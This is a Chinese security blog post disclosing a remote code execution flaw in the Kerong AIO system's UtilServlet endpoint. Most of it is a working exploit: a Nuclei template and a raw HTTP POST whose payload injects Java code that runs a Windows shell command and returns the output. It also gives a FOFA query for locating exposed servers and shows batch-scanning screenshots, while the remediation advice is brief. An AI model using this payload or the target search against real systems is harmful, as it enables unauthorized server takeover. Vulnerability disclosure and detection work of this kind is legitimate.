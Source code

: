 #  科荣AIO系统UtilServlet接口处存在代码执行漏【漏洞复现|附nuclei-POC】洞   
原创 kingkong  脚本小子   2024-11-25 03:33  
  
****  
**免责声明：**  
**本文内容仅供技术学习参考，请勿用于违法破坏。利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，与作者无关。如有侵权请联系删除。**  
  
****  
****  
**漏洞描述：**  
  
科荣AIO系统UtilServlet接口处存在代码执行漏。  
攻击者  
可能利用此漏洞执行恶意命令，导致系统执行未授权的操作，获取服务器权限。  
  
  
01  
  
—  
  
**Nuclei POC**  
  
  
```
id: kerong-AIO-UtilServlet-RCE

info:
  name: 科荣AIO系统UtilServlet接口处存在代码执行漏

  author: kingkong
  severity: high
  metadata:
    fofa-query: body="changeAccount('8000')"

http:
  - raw:
      - |
        POST /UtilServlet HTTP/1.1
        Host: {{Hostname}}
        User-Agent:Mozilla/5.0(Windows NT 6.1; WOW64)AppleWebKit/534.57.2(KHTML, like Gecko)Version/5.1.7Safari/534.57.2
        Accept-Encoding: gzip, deflate, br
        Connection: keep-alive
        Content-Type: application/x-www-form-urlencoded
        Content-Length:322

        operation=calculate&value=BufferedReader+br+%3d+new+BufferedReader(new+InputStreamReader(Runtime.getRuntime().exec("cmd.exe+/c+whoami").getInputStream()))%3bString+line%3bStringBuilder+b+%3d+new+StringBuilder()%3bwhile+((line+%3d+br.readLine())+!%3d+null)+{b.append(line)%3b}return+new+String(b)%3b&fieldName=example_field


    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
              - "content_length>=3  && content_length<=30 && status_code==200"
        condition: and

```  
  
  
  
02  
  
—  
  
搜索语法  
```
FOFA：body="changeAccount('8000')"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohndtSd4x25ttSzbFiaDEwic4pdEvykFMxxn1aOuO8uEdH34grwlnec6AAldsOhW5THvccjyJuDTfmjibA/640?wx_fmt=png&from=appmsg "")  
  
界面如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohndtSd4x25ttSzbFiaDEwic4pdRc6IQXfxlgP7oyomwaxgiagLnlDWT3ibI3MibS7Viamlblah8h67sbtYlA/640?wx_fmt=png&from=appmsg "")  
  
03  
  
—  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohndtSd4x25ttSzbFiaDEwic4pd4Wo4via71vo1FpvBbGt8Jaa10b1QNicicbrSmiaPI9W3ZX51VarW1qFLSg/640?wx_fmt=png&from=appmsg "")  
漏洞检测POC  
```
POST /UtilServlet HTTP/1.1
Host: 
User-Agent:Mozilla/5.0(Windows NT 6.1; WOW64)AppleWebKit/534.57.2(KHTML, like Gecko)Version/5.1.7Safari/534.57.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length:322

operation=calculate&value=BufferedReader+br+%3d+new+BufferedReader(new+InputStreamReader(Runtime.getRuntime().exec("cmd.exe+/c+whoami").getInputStream()))%3bString+line%3bStringBuilder+b+%3d+new+StringBuilder()%3bwhile+((line+%3d+br.readLine())+!%3d+null)+{b.append(line)%3b}return+new+String(b)%3b&fieldName=example_field

```  
  
  
neclei批量检测截图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohndtSd4x25ttSzbFiaDEwic4pd3ic0pJibLiaQF53ejXnDcWxIXRQ1MwW5Hh5ibIDRfwd4Xeeeo08XLNILvQ/640?wx_fmt=png&from=appmsg "")  
  
  
04  
  
—  
  
修复建议  
  
  
1、输入验证：对所有用户输入进行严格的验证，确保只接受预期的格式。2、使用安全的API：使用安全的库或API来执行命令，避免直接调用系统命令。3、最小权限原则：确保应用程序仅在必要的权限下运行，限制可执行的命令。4、输出编码：对输出进行编码，以防止注入攻击。  
  
05  
  
—  
  
下载地址  
  
  
进入公众号点击POC可获取所有POC文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneS7aOPfDNKhvOicibVlyrkJ3A4EuUx5c5S8eAxFnF9KiaibAGJfP6ibB6ze4Rm4pZ7MI4jQibT05lTevqg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
  
  
  
